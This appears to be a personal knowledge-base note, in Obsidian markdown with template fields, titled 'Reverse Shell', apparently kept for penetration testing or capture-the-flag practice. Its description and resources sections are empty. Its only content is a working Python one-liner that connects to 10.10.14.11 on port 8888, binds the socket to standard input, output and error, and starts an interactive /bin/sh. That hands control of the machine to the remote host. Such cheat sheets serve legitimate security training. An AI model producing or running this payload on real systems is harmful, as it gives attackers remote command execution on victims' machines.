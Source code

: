```yaml
---
creation date: May 30th 2023
last modified date: May 30th 2023
aliases: []
tags: #📕
---
```


Primary Categories: 
Secondary Categories:  
Links: 
Search Tag: #📕  

# [[Reverse Shell]]  
___

## Description:  


## List  of a few shells
### Python
```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",8888));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 30th 2023 (10:53 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
